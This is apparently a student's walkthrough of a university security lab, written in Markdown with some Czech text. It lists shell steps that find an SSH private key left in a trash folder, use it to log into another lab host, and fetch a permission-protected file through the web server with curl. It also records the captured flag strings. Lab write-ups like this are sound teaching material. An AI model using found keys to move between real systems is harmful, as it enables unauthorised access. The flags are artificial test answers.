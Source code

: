 # 02

### bis.fit.vutbr.cz

1.) `cd ~`

2.) `ls -A -R .`

  * ssh key founded `~/.Trash/itcrowd.key`

3.) `ssh -i .Trash/itcrowd.key -l itcrowd ptest3`

  * connected to ptest3 `192.168.122.22`

### ptest3.bis.mil

4.) `cd ~  && ls -R -A .`

5.) `cd /var/www/html && ls -R -A .`

6.) `cat /var/www/html/secret.txt`

  * Permission denied

7.) `curl http://ptest3/secret.txt`

8.) **Ziskali jste tajemstvi C_17-11-19-41-01_47533bc4b523ba4f7d0ebef3d25fe654f5ec126bc6a161394b027f4355ed6f64**

9.) `cat /var/www/html/robots.txt`

10.) **Ziskali jste tajemstvi I_17-11-20-14-01_adb2020a691f94c4a2b0f3ea1b16c21936567ee6b07f5a3308959c47a1b19abe**
